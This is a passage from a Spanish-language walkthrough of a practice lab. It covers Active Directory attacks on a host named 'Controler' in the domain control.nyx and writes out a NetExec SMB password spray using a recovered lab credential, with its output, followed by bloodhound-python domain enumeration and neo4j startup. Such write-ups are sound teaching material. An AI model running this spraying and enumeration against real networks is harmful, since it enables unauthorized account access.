 Igualmente ahora tenemos una lista con los usuarios del dominio.
```console
cat -p users.txt
b.lewis
a.hansen
d.petrov
m.klein
j.levy
administrator
```

Ningún usuario (que no sea `b.lewis`) tiene esa credencial.
```console
nxc smb 192.168.2.6 -u users.txt -p 101Music --continue-on-success
SMB         192.168.2.6     445    CONTROLER        [*] Windows 10 / Server 2019 Build 17763 x64 (name:CONTROLER) (domain:control.nyx) (signing:True) (SMBv1:False)
SMB         192.168.2.6     445    CONTROLER        [+] control.nyx\b.lewis:101Music
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\a.hansen:101Music STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\d.petrov:101Music STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\m.klein:101Music STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\j.levy:101Music STATUS_LOGON_FAILURE
SMB         192.168.2.6     445    CONTROLER        [-] control.nyx\administrator:101Music STATUS_LOGON_FAILURE
```

# Bloodhound Enumeration
Vamos a utilizar `bloodhound-python` para poder enumerar el dominio con `bloodhound` teniendo las credenciales que tenemos del usuario `b.lewis`, con suerte este usuario tiene algún permiso sobre otro usuario y podemos pivotar.
```console
bloodhound-python -ns 192.168.2.6 -dc controler.control.nyx -u b.lewis -p 101Music -d control.nyx
INFO: Found AD domain: control.nyx
INFO: Getting TGT for user
INFO: Connecting to LDAP server: controler.control.nyx
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Found 9 users
INFO: Connecting to LDAP server: controler.control.nyx
INFO: Found 52 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Controler.control.nyx
INFO: Done in 00M 00S
```

Ahora iniciamos la base de datos `neo4j` que es la que utiliza `bloodhound`
```console
sudo neo4j start
[sudo] password for kali:
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
```